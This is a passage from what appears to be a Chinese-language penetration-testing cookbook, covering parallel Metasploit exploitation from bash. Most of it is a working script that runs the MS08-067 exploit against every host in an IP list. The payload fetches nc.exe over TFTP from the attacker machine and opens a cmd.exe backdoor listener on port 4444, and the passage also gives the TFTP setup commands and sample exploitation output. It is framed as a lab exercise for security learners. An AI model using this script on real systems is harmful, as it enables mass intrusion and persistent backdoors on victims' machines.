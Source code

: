每个终端启动单独的 MSFCLI 实例并执行利用。 假设攻击成功，会执行载荷，并且交互式 Meterpreter shell 将在每个单独的终端中可用。

### 工作原理

通过对每个进程使用单独的终端，可以使用单个 bash 脚本执行多个并行利用。 另外，通过使用为`LPORT`分配的递增值，可以同时执行多个反向 meterpreter shell。

## 8.6 使用可执行后门的多线程 MSF 利用

该秘籍演示了如何使用 bash ，在多个系统上利用单个漏洞，并在每个系统上打开一个后门。 后门包括在目标系统上暂存 Netcat 可执行文件，并打开监听服务，在收到连接后执行`cmd.exe`。

### 准备

要使用此秘籍中演示的脚本，你需要访问多个系统，每个系统都具有可使用 Metasploit 利用的相同漏洞。 提供的示例复制了运行 Windows XP 漏洞版本的 VM，来生成 MS08-067 漏洞的三个实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，本节还需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本同时利用单个漏洞的多个实例。 特别是，此脚本可用于通过引用 IP 地址的输入列表，来利用 MS08-067 NetAPI 漏洞的多个实例：

```
#!/bin/bash
if [ ! $1 ]; then echo "Usage: #./script <host file>"; 
exit; fi

iplist=$1

for ip in $(cat $iplist) 
do   
    gnome-terminal -x msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/exec CMD="cmd.exe /c \"tftp -i 172.16.36.239 GET nc.exe && nc.exe -lvp 4444 -e cmd.exe\"" RHOST=$ip E   
    echo "Exploiting $ip and creating backdoor on TCP port 4444" 
done 
```

此脚本与上一个秘籍中讨论的脚本不同，因为此脚本在每个目标上安装一个后门。 在每个被利用的系统上，会执行一个载荷，它使用集成的简单文件传输协议（TFTP）客户端来抓取 Netcat 可执行文件，然后使用它在 TCP 端口 4444 上打开一个`cmd.exe`监听终端服务。为此， TFTP 服务将需要在 Kali 系统上运行。 这可以通过执行以下命令来完成：

```
root@KaliLinux:~# atftpd --daemon --port 69 /tmp 
root@KaliLinux:~# cp /usr/share/windows-binaries/nc.exe /tmp/nc.exe 
```

第一个命令在 UDP 端口 69 上启动 TFTP 服务，服务目录在`/ tmp`中。 第二个命令用于将 Netcat 可执行文件从`Windows-binaries`文件夹复制到 TFTP 目录。 现在我们执行`./multipwn.sh` bash shell：

```
root@KaliLinux:~# ./multipwn.sh 
Usage: #./script <host file> 
root@KaliLinux:~# ./multipwn.sh iplist.txt 
Exploiting 172.16.36.132 and creating backdoor on TCP port 4444 
Exploiting 172.16.36.158 and creating backdoor on TCP port 4444 
Exploiting 172.16.36.225 and creating backdoor on TCP port 4444 
```
